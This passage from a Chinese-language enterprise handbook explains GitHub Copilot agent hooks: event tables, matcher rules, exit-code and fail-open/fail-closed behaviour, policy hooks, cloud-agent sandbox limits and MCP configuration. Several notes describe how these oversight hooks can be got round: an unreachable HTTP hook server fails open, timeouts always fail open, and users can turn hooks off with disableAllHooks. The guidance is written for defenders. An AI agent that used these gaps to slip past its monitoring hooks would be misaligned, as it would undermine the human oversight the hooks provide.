| `sessionEnd` | 工作階段終止 | 否（純通知） | 觸發；`reason` 通常為 `complete`／`error`／`timeout` |
| `userPromptSubmitted` | 使用者送出 Prompt | 可選——`modifiedPrompt` **僅 SDK 程式化 Hook 生效** | 至多觸發一次（job 的初始 Prompt） |
| `userPromptTransformed` | Runtime 把 Prompt 轉換成「送給模型的內容」之後、寫入 session 歷史之前 | 是——可用 `modifiedTransformedPrompt` 改寫模型實際看到的內容 | 觸發 |
| `preToolUse` | 每次工具執行前 | 是——可 allow／deny／改寫參數 | 觸發；決策 `ask` 會被視為 `deny`（無人可回答） |
| `postToolUse` | 工具**成功**完成後 | 是——可改寫工具結果或注入補充脈絡 | 觸發 |
| `postToolUseFailure` | 工具**失敗**後 | 是——可透過 `additionalContext` 提供修復指引 | 觸發 |
| `preCompact` | 即將進行 Context Compaction（手動或自動） | 否（純通知） | 僅在 `trigger: "auto"` 時觸發 |
| `agentStop` | 主 Agent 完成一輪 turn | 是——可 `block` 強制再跑一輪 | 觸發；被 block 的續跑仍計入 job timeout |
| `subagentStart` | Subagent 被建立（執行前） | 可選——無法阻擋建立，但 `additionalContext` 會前置到 subagent 的 prompt | 觸發 |
| `subagentStop` | Subagent 完成 | 是——可 `block` 強制續跑，或用 `modifiedResponse` 改寫回傳給母 Agent 的內容 | 觸發 |
| `errorOccurred` | 執行期間發生錯誤 | 否 | 觸發 |
| `permissionRequest` | 權限服務執行**之前**（早於規則引擎、session 核准、自動允許／拒絕與使用者詢問） | 是——可程式化 allow／deny | **不適用**（cloud agent 工具皆已預先核准），請改用 `preToolUse` |
| `notification` | CLI 發出系統通知時**非同步**觸發（Shell 完成、Agent 完成或閒置、權限詢問、資訊索取對話框） | 可選——可注入 `additionalContext` | **不觸發**（cloud agent 不對人顯示通知） |

其中 `permissionRequest` 與 `notification` 為 **Copilot CLI 專屬**；其餘 12 個事件在 CLI 與 cloud agent 皆會觸發（行為差異如上表右欄）。

#### 13.2.2 事件名稱的兩種寫法：camelCase 與 PascalCase

官方支援**兩套事件名稱**，而且**選哪一套會直接決定 payload 的欄位命名風格**，這是跨工具移植 Hook 時最容易踩的坑（官方已實作）：

| 寫法 | 範例 | Payload 欄位風格 | 用途 |
|---|---|---|---|
| **camelCase** | `sessionStart`、`preToolUse` | camelCase（`sessionId`、`toolName`、`toolArgs`）；`timestamp` 為 Unix 毫秒整數 | Copilot 原生寫法，建議企業新專案採用 |
| **PascalCase** | `SessionStart`、`PreToolUse` | snake_case（`session_id`、`tool_name`、`tool_input`）並額外帶 `hook_event_name`；`timestamp` 為 ISO 8601 字串 | **VS Code 相容格式**，也是 Claude Code Plugin 與 Open Plugins 格式使用的寫法 |

更關鍵的是**Matcher 語意也會跟著切換**。以 PascalCase 的 `PreToolUse`（或 `PermissionRequest`）設定的 Hook，會套用 **Claude 的 matcher 語意**而非 Copilot 原生的 regex 規則：

- `*`、`**` 或空字串：對所有工具觸發
- 字面名稱或用 `|` 分隔的列舉（例如 `Bash`、`Edit|Write`）：任一 token 等於 runtime 工具名或其 Claude 工具名時觸發
- 其他值：視為區分大小寫的 regex，錨定為 `^(?:PATTERN)$`，比對的是 **Claude 工具名**

而且 PascalCase 的 payload 回報的 `tool_name` 會是 **Claude 工具名**（例如 `Bash` 而非 `bash`）。官方提供的對照表如下：

| Copilot Runtime 工具 | Claude 工具名 |
|---|---|
| `bash`、`powershell` | `Bash` |
| `view` | `Read` |
| `create` | `Write` |
| `edit`、`str_replace_editor`、`apply_patch` | `Edit` |
| `grep`、`rg` | `Grep` |
| `glob` | `Glob` |
| `web_fetch` | `WebFetch` |
| `web_search` | `WebSearch` |
| `ask_user` | `AskUserQuestion` |
| `update_todo` | `TodoWrite` |
| `task` | `Agent`（也接受字面的 `Task`） |

無 Claude 對應的工具則沿用 runtime 原名。

> ⚠️ **企業導入建議（建議架構）**：在同一個 Repository 內**不要混用**兩種寫法。統一採 camelCase 可讓 payload 解析腳本只寫一套；只有在你需要把既有 Claude Code Hook 原封不動搬過來時，才選 PascalCase，並在 `README.md` 中明確註記「本檔採 VS Code 相容格式，payload 為 snake_case」。

#### 13.2.3 Hook 的三種型別

官方 Hook 設定支援三種 `type`，第三版僅涵蓋 `command` 一種（官方已實作）：

| 型別 | 用途 | 支援事件 | 關鍵限制 |
|---|---|---|---|
| `command` | 執行 Shell 指令 | 全部事件 | 可分別指定 `bash`／`powershell`，或以 `command` 作為跨平台 fallback；`cwd`、`env`、`timeoutSec`（預設 30 秒）可調 |
| `http` | 把 payload 以 JSON `POST` 送到指定 URL | 全部事件 | **預設只允許 `https://`**；`preToolUse` 與 `permissionRequest` **強制**必須 `https://`（因為回應可授予工具權限）。`allowedEnvVars` 可指定哪些環境變數允許在 `headers` 中展開 |
| `prompt` | 以「彷彿使用者輸入」的方式自動送出一段文字或 slash command | **僅 `sessionStart`** | **Copilot CLI 專屬**，且只在**新的互動式 session** 觸發；resume 與非互動的 `-p` 模式皆不觸發 |

`command` 型 Hook 另可在執行中把 `{"type": "progress", "message": "..."}` 單行 JSON 寫到 stdout，於 CLI 時間軸顯示進度；加上 `"temporary": true` 則為暫時性狀態列。CLI 會逐行掃描 stdout，把 progress 行**移出輸出串流**，其餘所有行在 Hook 結束後串接、trim 後以**單次 `JSON.parse`** 解析。這代表：

- Progress 行與最終決策物件混寫是**官方設計的正常用法**，不會干擾解析
- 每個 progress 訊息必須自成一行且為合法 JSON；多行美化排版的 progress 物件**不會**被辨識，會殘留在輸出串流中導致最終解析失敗
- **只能輸出「一個」最終決策物件**。兩個 `echo '{"permissionDecision": ...}'` 會串成非法 JSON 而被整個忽略
- Hook 輸出（command 的 stdout／http 的 response body）上限為 **10 MiB**，超過會被截斷

#### 13.2.4 決策控制與 Matcher 過濾

**`preToolUse` 決策欄位**：

| 欄位 | 值 | 說明 |
|---|---|---|
| `permissionDecision` | `allow`／`deny`／`ask` | 空輸出代表沿用預設行為 |
| `permissionDecisionReason` | 字串 | 回饋給 Agent 的理由；`deny` 時**必填** |
| `modifiedArgs` | 物件 | 用替代參數取代原始工具參數 |

**`agentStop`／`subagentStop` 決策欄位**：`decision`（`block`／`allow`）、`reason`（`block` 時作為下一輪的 prompt）、`modifiedResponse`（**僅 `subagentStop`**，用於遮蔽或重整 subagent 輸出）。官方另設有**失控保護（Runaway guard）**：連續 8 次 `block` 續跑後，CLI 會強制結束該 turn；`agentStop` 的輸入欄位 `stop_hook_active` 可用來偵測「本輪已被強制續跑過」而自我節制。

**Matcher 過濾**——這正是第三版所稱「官方沒有提供依工具名稱過濾的欄位」之處**已經不成立**。官方現已支援 `matcher` 欄位，編譯為 `^(?:PATTERN)$` 並必須完整比對；regex 非法時該 Hook 項目會被跳過：

| 事件 | `matcher` 比對對象 |
|---|---|
| `preToolUse` | `toolName` |
| `postToolUse` | `toolName` |
| `permissionRequest` | `toolName` |
| `preCompact` | `trigger`（`manual` 或 `auto`） |
| `subagentStart` | `agentName` |
| `notification` | `notification_type` |

#### 13.2.5 Exit Code 與 Fail-Open／Fail-Closed 語意（資安關鍵）

這是設計「攔阻型」Hook 時**最必須讀懂**的一段（官方已實作）：

| Exit Code | 語意 |
|---|---|
| `0` | 成功。stdout 若存在則解析為 Hook 輸出 JSON |
| `2` | 預設視為警告，stderr 顯示給使用者但流程繼續。**但對 `preToolUse` 與 `permissionRequest`，exit 2 一律視為 deny**，即使 stdout JSON 寫著 `permissionDecision: "allow"` 也會被拒絕。對 `postToolUseFailure`，exit 2 則把 stdout 當成 `additionalContext` 附加到失敗訊息 |
| 其他非零 | 記錄為 Hook 失敗，流程繼續（fail-open）。**例外：`preToolUse` 為 fail-closed**，非零離開會以 `"Denied by preToolUse hook (hook errored)"` 拒絕該次工具呼叫 |
| Timeout | 超過 `timeoutSec` 後被終止。**Timeout 對所有事件一律 fail-open，連 `preToolUse` 與管理員部署的 Policy Hook 也不例外**——只會顯示警告，工具呼叫回到正常權限流程 |

`command` 與 `http` 兩種型別的 `preToolUse` 失敗語意**相反**，這一點必須依資安需求選型：

- **Command `preToolUse`：fail-closed**（崩潰或非零離開＝拒絕）
- **HTTP `preToolUse`：fail-open**（網路錯誤、逾時、非 2xx 皆落回預設權限流程）

> ⚠️ **企業資安含意（建議架構）**：若你把「阻擋機密外洩」的責任交給 HTTP Hook，攻擊者只要讓那台伺服器**無法連線**，Hook 就會 fail-open 而完全失效。合規等級的攔阻請一律使用 **`command` 型 `preToolUse`**（fail-closed），並且**不要把 timeout 設得太短**——因為 timeout 永遠 fail-open，過短的 timeout 等於自己開了旁路。真正的硬邊界請放在第 20.5 節的 `permissions.deny` 與第 20.6 節的 Sandbox，Hook 只作為可觀測性與流程自動化層。

#### 13.2.6 `permissionRequest` 與 Sandbox Bypass 例外

`permissionRequest`（Copilot CLI 專屬）在權限服務執行**之前**觸發，回傳 `behavior: "allow"` 或 `"deny"` 即可短路整個權限流程；回傳空值則落回正常處理。它特別適合 CLI 的 pipe 模式（`-p`）與 CI 情境——那裡根本沒有互動式提示可用。輸出欄位為 `behavior`、`message`（拒絕時回饋給 LLM 的理由）、`interrupt`（搭配 `deny` 設為 `true` 可直接中止 Agent）。

**Sandbox Bypass 例外（資安設計重點）**：對於任何「要求跳出 Sandbox」的請求（`toolInput` 中 `requestSandboxBypass: true`），Hook 回傳 `allow` **不會**預先核准、也不會短路使用者提示——因為離開 Sandbox 屬於權限提升，官方要求**必須由人互動確認**。只有 `deny` 仍會生效（讓 Policy Hook 得以封鎖此類逃逸）。此規則涵蓋「Shell 指令要求在 Sandbox 外執行」與「`web_fetch` 目標 URL 被 Sandbox 網路政策拒絕」兩種情況。

### 13.3 設定檔格式與關鍵限制

- 設定檔位置：`.github/hooks/NAME.json`
- **關鍵限制**（官方原文）："The hooks configuration file **must be present** on your repository's default branch to be used by Copilot cloud agent."——這代表在 feature branch 上新增/修改 Hook，Copilot cloud agent **不會**套用，必須先合併到 default branch。
- 預設 timeout 30 秒，可用 `timeoutSec` 調整（`timeout` 為其別名，兩者並存時以 `timeoutSec` 優先）。
- 需包含 `"version": 1`。

**官方正確的 JSON 骨架（第四版校正，官方已實作）**：事件名是 `hooks` 物件的 **key**，對應值是一個**陣列**，因此單一檔案既可綁定多個事件，同一事件也可以掛多個 Hook：

```json
{
  "version": 1,
  "disableAllHooks": false,
  "hooks": {
    "preToolUse": [
      {
        "type": "command",
        "matcher": "bash|powershell",
        "bash": "./scripts/hooks/guard.sh",
        "powershell": "./scripts/hooks/guard.ps1",
        "cwd": "./",
        "env": { "LOG_LEVEL": "info" },
        "timeoutSec": 30
      }
    ],
    "sessionEnd": [
      { "type": "command", "command": "./scripts/hooks/session-end-security-scan.sh", "timeoutSec": 60 }
    ]
  }
}
```

其中 `bash`、`powershell`、`command` 三者**至少必填其一**；`command` 是跨平台 fallback，在 `bash`／`powershell` 缺席時被複製到兩者，而明寫的 `bash`／`powershell` 在各自平台優先。

**寬鬆度差異（容易踩坑）**：從目錄（例如 `.github/hooks/`）載入的檔案，若某一個 Hook 項目格式錯誤，**只會丟掉該項目**並記錄 log，同檔其他合法 Hook 仍會載入（但非法 JSON、錯誤的 `version`、非陣列的事件值這類**結構性錯誤**仍會整檔拒絕）；而寫在 `settings.json` 內的 `hooks` 區塊則是**嚴格模式**，任一項目驗證失敗就整個 `hooks` 欄位作廢。

**一鍵停用：`disableAllHooks`**（官方已實作）。需要保留設定但暫停執行時（偵錯、處理敏感任務、讓貢獻者本地選退），可將此旗標設為 `true`：

- 寫在**單一 `.github/hooks/*.json` 檔內**：只跳過該檔宣告的 Hook，CLI 與 cloud agent 皆遵守
- 寫在 Repository `settings.json` 頂層：**Copilot CLI 專用**，會跳過該 Repository 所有來源的 Hook；但 **Policy Hook 不受影響，仍照常執行**（這正是企業強制治理的設計重點，見第 13.7 節）

> ⚠️ awesome-copilot 的 `hooks/<name>/` 貢獻慣例用的檔名是 `hooks.json`（搭配 `README.md`），與官方文件描述的 `.github/hooks/NAME.json` 兩者間的等價關係**未能查證確認**（官方目前沒有找到足夠資料確認此功能）。企業實作時建議以 `docs.github.com` 官方頁面描述的 `.github/hooks/NAME.json` 格式為準。

### 13.4 Pre-Change Quality Gate Hook 範例

> ⚠️ **重要語意澄清**：依 13.2 定義，`preToolUse` 是「Agent **每次呼叫任何工具前**」都會觸發，並非「只在 commit 前」觸發。下列範例的 Shell 腳本內容（secret 掃描、lint、測試）刻意設計成可以在每次工具呼叫前重複執行也不會出錯，但代價是**每一次**工具呼叫（包含單純讀檔）都會先跑一輪完整檢查，可能造成明顯延遲。
>
> ✅ **第四版修正**：本手冊前三版在此處寫「官方 Hook 設定本身沒有提供依工具名稱／參數過濾的欄位」，此說法**已不再成立**。官方現已提供 **`matcher` 欄位**（見第 13.2.4 小節），`preToolUse` 可直接以 regex 對 `toolName` 過濾，例如 `"matcher": "bash|powershell|edit|create"` 就可以把單純讀檔（`view`、`grep`、`glob`）排除在完整檢查之外。**請優先使用 `matcher` 而非在 Shell 腳本內自行判斷**，因為 matcher 不符時連 Hook 進程都不會被建立，效能差異很大。下方範例已同步改寫為官方格式並加上 `matcher`。

**`.github/hooks/pre-tooluse-quality-gate.json`**：

```json
{
  "version": 1,
  "hooks": {
    "preToolUse": [
      {
        "type": "command",
        "matcher": "bash|powershell|edit|create|apply_patch",
        "command": "./scripts/hooks/pre-commit-quality-gate.sh",
        "timeoutSec": 120
      }
    ]
  }
}
```

**`scripts/hooks/pre-commit-quality-gate.sh`（示意，腳本開頭加入「暫存區是否有變更」判斷，避免每次工具呼叫都重複跑完整檢查）**：

```bash
#!/usr/bin/env bash
set -euo pipefail

# 依上方澄清說明：preToolUse 每次工具呼叫前都會觸發，
# 此處先判斷是否真的有暫存變更，沒有變更就直接放行，避免每次讀檔都跑一輪完整檢查
if git diff --cached --quiet; then
  echo "[hook] 無暫存變更，略過 Quality Gate"
  exit 0
fi

echo "[hook] 掃描 Secret..."
gitleaks detect --no-git -v

echo "[hook] 執行 Lint..."
npm run lint --if-present
mvn -q checkstyle:check --file pom.xml || true

echo "[hook] 執行單元測試..."
mvn -q test
npm run test:unit --if-present

echo "[hook] 檢查依賴漏洞..."
mvn -q org.owasp:dependency-check-maven:check || true

echo "[hook] Quality Gate 通過"
```

### 13.5 Agent Workflow Hook 範例

**`.github/hooks/agent-workflow-guard.json`**（第四版校正：官方格式下 **一個檔案可以同時綁定多個事件**，不需要拆成兩個檔）：

```json
{
  "version": 1,
  "hooks": {
    "sessionStart": [
      { "type": "command", "command": "./scripts/hooks/context-validation.sh", "timeoutSec": 30 }
    ],
    "sessionEnd": [
      { "type": "command", "command": "./scripts/hooks/session-end-security-scan.sh", "timeoutSec": 60 }
    ],
    "subagentStop": [
      { "type": "command", "command": "./scripts/hooks/redact-subagent-output.sh", "timeoutSec": 15 }
    ],
    "preCompact": [
      { "type": "command", "matcher": "auto", "command": "./scripts/hooks/archive-transcript.sh", "timeoutSec": 30 }
    ]
  }
}
```

**進階範例說明（第四版新增，建議架構）**：上例後兩個事件是舊版六事件模型根本無法實現、但企業非常需要的兩條治理路徑：

- **`subagentStop`：Subagent 輸出遮蔽閘門**。Subagent 常被用來做大量探索性搜尋，回傳給母 Agent 的內容可能夾帶檔案路徑、連線字串或設定值。利用 `modifiedResponse` 可以在內容進入母 Agent context **之前**就完成遮蔽。需注意官方兩項限制：（1）有效的 `block` 決策會**壓過** `modifiedResponse`；（2）多個 Hook 的改寫**不會級聯**，每個 Hook 都拿到相同的原始 `response`，最後一個回傳的勝出——所以**不要**把「遮蔽器」與「格式化器」分成兩個 Hook 串接。
- **`preCompact`（matcher 限定 `auto`）：壓縮前的逐字稿保存**。Context Compaction 發生時，先前的對話細節會被摘要取代；對於需要完整稽核軌跡的產業（金融、醫療），這等於遺失證據。`preCompact` 的 payload 帶有 `transcriptPath`，可在壓縮發生前先把逐字稿歸檔。以 `"matcher": "auto"` 限定只在**自動**壓縮時觸發，避免使用者手動壓縮時重複歸檔；cloud agent 也只會以 `auto` 觸發此事件。

流程示意：



### 13.6 安全性、Logging、Failure Handling

| 面向 | 建議做法 |
|---|---|
| 安全性 | Hook 腳本等同於「有權在 CI/Agent 環境執行任意 Shell 指令」，必須比照生產環境腳本標準審查，且不可硬編碼任何 Secret |
| Logging | Hook 執行結果應輸出到集中式 Log，方便事後追蹤是哪次 Session 觸發了哪個 Hook |
| Failure Handling | Hook 執行失敗時應讓 Agent 明確得知失敗原因（透過非 0 的 exit code + 清楚的錯誤訊息），而不是靜默失敗 |

### 13.7 Hook 檔案位置、載入優先序與 Cloud Agent 限制

> 本節為第四版新增。第三版只描述了 `.github/hooks/NAME.json` 一個位置，但官方 Hooks Reference 實際定義了**五個載入來源**與**兩個完全不同的執行環境**。企業若要設計「使用者無法關閉」的治理 Hook，關鍵就在本節的 Policy Hooks。

#### 13.7.1 Copilot CLI 的五個載入來源（官方已實作）

Hook 在 Copilot CLI 上跑在**開發者本機、與 CLI 相同的 shell** 中。載入順序為 **Policy → Repository → User → settings.json 內嵌 → Plugin**，且**全部合併執行**——同一事件出現在多個來源時，所有來源的 Hook 項目都會被執行，不是覆蓋關係：

| 順位 | 來源 | 位置 | 特性 |
|---|---|---|---|
| 1 | **Policy 層** | Linux／macOS：`/etc/github-copilot/policy.d/*.json`；Windows：`C:\ProgramData\GitHub\Copilot\policy.d\*.json`；另可經 Windows Registry `HKLM\Software\Policies\GitHub\Copilot`（每個子鍵存放一個 `Policy` REG_SZ 值，內容為 JSON 政策文件） | **機器層級**，先於所有其他 Hook 載入；**無法被 `disableAllHooks` 關閉**；不受資料夾信任狀態影響 |
| 2 | **Repository 層** | `.github/hooks/*.json` | 隨 Repository 版控，團隊共享 |
| 3 | **User 層** | 預設 `~/.copilot/hooks/`（Windows 為 `%USERPROFILE%\.copilot\hooks\`）；若設定 `COPILOT_HOME` 則為 `$COPILOT_HOME/hooks/` | 個人跨專案通用 |
| 4 | **settings.json 內嵌** | Repository：`.github/copilot/settings.json`（版控）或 `.github/copilot/settings.local.json`（通常 gitignore）頂層的 `hooks` 欄位；使用者：`~/.copilot/settings.json` 頂層的 `hooks` 欄位。**跨工具相容**：`.claude/settings.json` 與 `.claude/settings.local.json` 也會被讀取 | 適合把 Hook 與其他設定放在同一份檔案管理 |
| 5 | **Plugin 提供** | 各 Plugin 安裝目錄內自帶的 `hooks.json`（或 `hooks/hooks.json`） | 隨 Plugin 一併散佈，見第 11、12 章 |

**Policy Hooks 的安全前提**（官方已實作）：在 POSIX 系統上，Policy 檔案**必須由 root 擁有**，且**不可被 group 或 world 寫入**；官方明確定位它是「給企業 IT 管理員使用、需要提升權限才能安裝」的機制，一般使用者無法修改。

> ⚠️ **這正是第三版遺漏的企業治理關鍵（第四版補上）**：如果你的合規要求是「工程師不得自行停用稽核 Hook」，把 Hook 放在 `.github/hooks/` 是**做不到**的——使用者只要在自己的 `settings.json` 頂層設 `disableAllHooks: true` 就能整批跳過。唯一能達成強制性的做法是**用 MDM／組態管理工具（Intune、Jamf、Ansible、GPO）把 Policy Hook 佈署到 `policy.d/` 或 Windows Registry**，並確保檔案權限正確。這與第 20.5 節的 `managed-settings.json` 是**互補**的兩層：`managed-settings.json` 管「權限與 Plugin 邊界」，Policy Hooks 管「不可繞過的稽核與自動化」。
>
> 但請同時記住第 13.2.5 小節的鐵則：**timeout 對 Policy Hook 一樣 fail-open**。一個連不上的 Policy Hook 端點，不會擋下任何事情。

#### 13.7.2 Copilot cloud agent 的執行環境限制（官方已實作）

Cloud agent 的 Hook 跑在**每個 job 各自佈建、結束即銷毀的 Linux 沙箱**中，環境限制與 CLI 差異極大：

| 面向 | Cloud agent 的實際行為 |
|---|---|
| 作業系統 | Linux。**只有 `bash` 欄位會被採用，`powershell` 項目一律忽略**；跨平台的 `command` 欄位作為 fallback 仍有效 |
| 工作目錄 | 有 clone Repository 時為 `/workspace`，否則為 `/root`。設定 `cwd` 或在腳本中引用檔案時請以此為準 |
| 檔案系統 | **短暫（ephemeral）**。Hook 寫出的 log、CSV、逐字稿在 job 結束時全部消失。要保留輸出，**必須**用 `http` 型 Hook 送出去 |
| 對外網路 | 受 cloud agent 防火牆限制。**預設只有 GitHub 與 Copilot 網域可達**；要連到 `https://hooks.example.com` 這類自有端點，須由管理員設定防火牆允許規則 |
| 可用環境變數 | 沙箱中有 `GITHUB_COPILOT_API_TOKEN`、`GITHUB_COPILOT_GIT_TOKEN`，`COPILOT_AGENT_PROMPT` 存放此 job 的 prompt，`HOME` 為 `/root`（因此腳本中的 `~/...` 都寫進短暫沙箱）。**`GITHUB_TOKEN` 不存在** |
| 互動性 | 完全非互動。Agent 以**所有工具權限預先核准**的狀態執行，不顯示權限對話框、也不對人發出通知 |
| 設定探索 | job 中預設**唯一**存在的 Hook 設定是 clone 下來的 `.github/hooks/*.json`。沙箱**不會**帶有 user 層 Hook 檔、`settings.json`、`config.json` 或已安裝的 Plugin |

> ⚠️ **企業最常見的三個 cloud agent Hook 失敗原因（建議架構）**：
>
> 1. **只寫了 `powershell` 欄位**——在 Linux 沙箱直接被忽略，Hook 等於沒設。請務必提供 `bash` 或 `command`。
> 2. **把稽核 log 寫到本機檔案**——job 結束即消失。請改用 `http` 型 Hook，並事先請管理員把你的收集端點加入防火牆允許清單。
> 3. **以為 user 層或 Plugin Hook 會生效**——沙箱不載入這些來源。所有 cloud agent 需要的 Hook 都必須存在於 Repository default branch 的 `.github/hooks/*.json`。

### Scenario

某團隊在 feature branch 上新增了一個 Hook 用來擋掉危險指令，測試時運作正常，合併前又臨時調整了 Hook 內容但忘記合併到 default branch，結果 Copilot cloud agent 在正式環境完全沒套用新版 Hook。**教訓**：牢記 13.3 的關鍵限制——Hook 設定檔必須存在於 default branch 才會被 Copilot cloud agent 使用，測試環境與 default branch 的 Hook 版本要保持同步驗證。

### AI Prompt 範例

```text
角色：你是 DevSecOps 工程師。

任務：請幫我們的 Java + Vue 專案設計一個 preToolUse Hook，
在 Agent 每次要執行「刪除檔案」相關指令前，先要求輸出將被刪除的檔案清單，
並記錄到 .github/hooks/logs/ 目錄，供事後稽核。

要求：
1. 依 13.3 節的官方 JSON 格式撰寫 hooks 設定檔
2. Shell 腳本需考慮跨平台相容性（企業內同時有 Windows 與 Linux 開發環境）
3. 說明此 Hook 為何要設在 default branch 才會生效
```

### 本章 Checklist

- [ ] 已理解 Hook 設定檔必須存在於 default branch 才會被 Copilot cloud agent 使用
- [ ] Hook 腳本已比照生產環境腳本標準做過安全審查
- [ ] 已建立至少一個 Pre-Commit Quality Gate Hook 並驗證觸發時機正確
- [ ] Hook 失敗時有清楚的錯誤訊息與集中式 Logging
- [ ] 已改用官方 `hooks` 物件格式（事件名為 key、值為陣列），未再使用舊版的頂層 `event` 欄位
- [ ] 已用 `matcher` 縮小 `preToolUse`／`postToolUse` 的觸發範圍，避免每次讀檔都跑完整檢查
- [ ] 已確認攔阻型 Hook 使用 `command` 型（fail-closed）而非 `http` 型（fail-open），且 timeout 未設得過短
- [ ] 已評估是否需要 `subagentStop`（Subagent 輸出遮蔽）與 `preCompact`（壓縮前逐字稿歸檔）兩條稽核路徑
- [ ] 若合規要求「不可被使用者停用」，已改以 Policy Hooks 佈署，並確認 POSIX 檔案由 root 擁有且非 group／world 可寫
- [ ] cloud agent 用的 Hook 已提供 `bash` 或 `command` 欄位（非僅 `powershell`），且稽核輸出改走 `http` 而非寫本機檔

---

## 14. MCP 整合

### 14.1 MCP 是什麼

Model Context Protocol（MCP）是 Agent 與外部工具／資料／系統的連接層，讓 Copilot 能存取本身不具備的外部能力（官方已實作）。MCP 由三個核心概念組成：

| 概念 | 說明 |
|---|---|
| MCP Server | 提供工具/資源/提示詞的外部服務進程 |
| MCP Tool | Server 提供給 Agent 呼叫的具體動作（如「查詢資料庫」） |
| MCP Resource | Server 提供給 Agent 讀取的資料（如「某份文件」） |
| MCP Prompt | Server 提供的預先定義提示詞範本 |

### 14.2 Copilot Agent 如何使用 MCP

Agent 在判斷需要外部資訊或需要執行外部動作時，會呼叫已設定的 MCP Server 提供的 Tool，取得結果後繼續推理——這與 Skill（本地封裝的指令與資源）、Plugin（打包分發單位）是不同層級的機制。



**補充（2026-08-27 查證新增）**：MCP 的使用範圍不只限於 Copilot cloud agent／VS Code Agent Mode——**Copilot Code Review 自 2026-07-29 起也正式 GA 支援 Agent Skills 與 MCP Server**，代表企業在 Pull Request 的自動化程式碼審查情境中，同樣可以讓 Copilot 透過 MCP 查詢外部系統（例如查詢 Jira 確認某個變更是否對應到合法的 Ticket），並非只有互動式對話情境才能使用 MCP。

### 14.3 MCP 與 Skill／Plugin 的差異

| | MCP | Skill | Plugin |
|---|---|---|---|
| 本質 | 對外部系統的連接 | 本地封裝的指令+資源 | 打包分發單位 |
| 資料是否即時 | 是（可查詢即時外部資料） | 否（靜態內容） | 依打包內容而定 |
| 是否可執行外部動作 | 是 | 依 `allowed-tools` 授權範圍 | 依打包內容而定 |
| 典型情境 | 查詢資料庫、Jira、GitHub | 逆向工程分析流程 | 一次分發一整組能力 |

### 14.4 各 Client 的設定位置

| Client | 設定位置 |
|---|---|
| VS Code（Workspace） | `.vscode/mcp.json` |
| VS Code（User Profile） | `mcp.json`，經 **MCP: Open User Configuration** 指令開啟 |
| VS Code（Remote/Agent Host 相容） | `~/.copilot/mcp-config.json` |
| Dev Containers | `devcontainer.json` 的 `customizations.vscode.mcp` |
| Visual Studio／JetBrains／Xcode | `mcp.json`（官方文件未明確標示完整路徑） |
| Eclipse | Preferences → GitHub Copilot → MCP |

格式為 JSON，頂層 `servers` 物件，欄位含 `type`、`url`、`command`、`args`。**GitHub MCP Registry 為 Public Preview**（官方原文："The GitHub MCP Registry is in public preview and may change."）。

### 14.5 `.vscode/mcp.json` 範例

```json
{
  "servers": {
    "github": {
      "type": "http",
      "url": "https://api.githubcopilot.com/mcp/"
    },
    "postgres": {
      "type": "stdio",
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-postgres", "postgresql://localhost/enterprise_db"]
    }
  }
}
```

> ⚠️ `github` Server 的 URL 為官方 GitHub MCP 端點示意；`postgres` Server 使用的套件為社群常見的 MCP Server 實作示意，非 awesome-copilot 收錄項目，安裝前需依第 21 章安全評估流程審查。

### 14.6 Web Application 開發常用 MCP 清單

| MCP | 用途 | 狀態標示 |
|---|---|---|
| GitHub MCP | 查詢/操作 GitHub Issues、PR、Repository | 官方已實作（GitHub 官方提供） |
| Database MCP（PostgreSQL／Oracle／DB2） | 查詢資料庫 Schema、執行唯讀查詢 | 建議架構／第三方社群實作，安裝前需審查 |
| Jira MCP | 查詢/更新 Jira Issue | 建議架構／第三方社群實作，非 awesome-copilot 官方收錄，需自行查證來源 |
| Confluence MCP | 查詢企業文件 | 同上 |
| Browser MCP | 瀏覽器自動化（如 Playwright MCP） | 建議架構／社群常見實作 |
| Filesystem MCP | 存取指定目錄檔案 | 建議架構／社群常見實作 |
| Kubernetes MCP | 查詢/操作 K8s 叢集資源 | 建議架構／社群常見實作，需嚴格權限控管 |
| Monitoring MCP（如 Grafana） | 查詢監控指標 | 建議架構／社群常見實作 |

> ⚠️ 上表除 GitHub MCP 外，其餘均**非 awesome-copilot 官方收錄或 GitHub 官方提供**，是本手冊列出的「企業可能需要」的示意清單，安裝任何一個前都必須依第 21 章 Checklist 完整審查來源、權限範圍與網路存取行為。

### 14.7 MCP Server 信任邊界與網域控管

VS Code 官方文件把 MCP Server 列為**四大信任邊界之一**，需要使用者明確同意後才能運作（2026-08-28 複查，官方已實作）。企業導入 MCP 時必須同時管到這四層：

| 信任邊界 | 行為 | 企業治理重點 |
|---|---|---|
| **工作區（Workspace）** | 未信任的工作區進入限制模式，**一併停用 Agent** | Clone 外部專案時，不要無意識地按下「信任作者」 |
| **擴充套件發行者** | 需信任發行者才能使用其提供的工具 | 列入企業擴充套件白名單 |
| **MCP Server** | **每台 Server 首次執行前都會跟你確認；設定變更後會再次詢問** | 「設定變更重新詢問」是針對供應鏈篡改的重要防線，不可教使用者「一律按同意」 |
| **網路網域** | 與 VS Code 的 Trusted Domains 清單整合；`chat.agent.networkFilter` 可限制 Agent 工具與沙箱指令可存取的網域 | 搭配第 20.6 節使用，形成「工具層➕作業系統層」雙重網域控管 |

